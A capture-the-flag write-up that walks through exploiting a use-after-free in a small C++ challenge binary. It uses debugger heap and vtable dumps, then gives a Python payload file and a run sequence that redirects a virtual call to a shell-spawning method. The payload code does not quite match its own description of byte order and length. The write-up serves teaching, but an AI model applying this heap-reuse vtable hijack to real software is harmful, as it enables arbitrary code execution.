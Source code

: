 ### Analysis

The uaf.cpp has a simple switch which creates 2 objects - these objects call methods from vtable
It also reads a file of our choice and allocates that data. This program also gives us a control of which function we want to call first via switch case.

```C
switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
```

`give_shell` method is the function we need to call instead of introduce.

```Cpp

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};
```


Using `GEF` (GDB Enhanced Features) we can analyse binary. After disassembling main function, we can find that before creation of object, a new heap chunk is created.
 
 ```bash
   0x0000000000400f00 <+60>:    call   0x400d90 <operator new(unsigned long)@plt>
   0x0000000000400f05 <+65>:    mov    rbx,rax
   0x0000000000400f08 <+68>:    mov    edx,0x19
   0x0000000000400f0d <+73>:    mov    rsi,r12
   0x0000000000400f10 <+76>:    mov    rdi,rbx
   0x0000000000400f13 <+79>:    call   0x401264 <Man::Man(std::basic_string<char, std::char_traits<char>, std::allocator<char> >, int)> 
```

If we set a breakpoint after calling `Man()` constructor, we can use `heap chunks` to check them.

```bash
Chunk(addr=0x6152e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000006152e0     70 15 40 00 00 00 00 00 19 00 00 00 00 00 00 00    p.@.............]
```
This tells us, that we have created a heap chunk on address `0x6152e0`, with size `0x20` (32, size passed to `new()` was 18 but due to 8 or 16 byte alingment (based on system) it grows to 32)

We can examine the chunk using `x/xg 0x6152e0` and see the address to vtable. 

```bash
gef➤  x/4xg 0x0000000000401570
0x401570 <vtable for Man+16>:   0x000000000040117a      0x00000000004012d2
0x401580 <vtable for Human>:    0x0000000000000000      0x00000000004015f0
```

The 2 addresses in vtable are for methods `give_shell()` and `introduce()`, we can examine them to confirm it.

```bash
gef➤  x/xg 0x000000000040117a
0x40117a <Human::give_shell()>: 0x10ec8348e5894855
```

After using program with third option (delete), we can examine chunk once again and see, that vtable address is erased, but the vtable itself still contains addresses to the virtual functions.
We can also use `heap bins` to see freed chunks and their sizes.

```bash
gef➤  heap bins
──────────────────────────────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ────────────────────────────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=2] ←  Chunk(addr=0x615330, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x6152e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
Tcachebins[idx=1, size=0x30, count=2] ←  Chunk(addr=0x615300, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x6152b0, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 

```

### Exploit

If the freed chunks are the same size as the new data we want to allocate, our heap manager will reuse those old heap chunks. Using this behavior, we can use option `2` to allocate a `data` array with a size of `0x18` (24 bytes, the same size as our previous data). This allocation will overwrite the `Man` and `Woman` chunks. After this, we can use option `1` to call the `introduce()` method; however, due to the overwritten vtable, it will incorrectly call `give_shell()` instead.

If we create a file containing 24 characters and use it as an argument file for our program, we can see that `heap chunks` are reused by using options `3` and then `2`. This shows that our heap chunks were reused.

Additionally, we need to reuse the `Woman` chunk to prevent our program from segfaulting. To achieve this, we simply need to use option `2` twice, allowing us to allocate two objects.

The last piece of the puzzle is understanding how `m->introduce()` works. It first accesses the vtable address, which points to two addresses, and then calls `(*vtable) + 8`. To call `give_shell()` instead of `introduce()`, we set `vtable_address` to `vtable_address - 8`, which is `0x0000000000401568`.

This python code will write our exploit, that has 16 characters followed by address of our function address.

```Python
with open("./tmp", "wb") as f:
    f.write(b'\x68\x15\x40\x00\x00\x00\x00\x00\x00' + 16* b'Y' )
```

After running this script, we can call
```bash
./uaf 24 tmp
```
and then use options `3`, `2`, `2`, `1` to access shell.
